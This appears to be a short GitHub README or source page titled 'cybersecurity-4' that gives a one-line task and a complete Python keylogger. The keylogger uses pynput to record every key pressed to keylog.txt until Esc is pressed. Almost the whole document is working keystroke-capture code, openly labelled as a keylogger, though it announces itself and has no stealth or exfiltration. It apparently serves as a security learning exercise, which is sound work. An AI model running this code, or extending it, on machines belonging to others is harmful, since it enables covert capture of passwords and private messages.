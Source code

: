 # cybersecurity-4
create a basic keylogger program that records and logs keystroke focus on logging the keys pressed and saving them to a file

from pynput import keyboard

log_file_path = "keylog.txt"

def on_press(key):
    try:
        with open(log_file_path, "a") as log_file:
            # Log the key pressed
            log_file.write(f"{key.char}")
    except AttributeError:
        with open(log_file_path, "a") as log_file:
            # Log special keys
            log_file.write(f"[{key}]")

def on_release(key):
    if key == keyboard.Key.esc:
        # Stop the listener
        return False

def main():
    print("Keylogger started. Press ESC to stop.")
    with keyboard.Listener(on_press=on_press, on_release=on_release) as listener:
        listener.join()

if __name__ == "__main__":
    main()

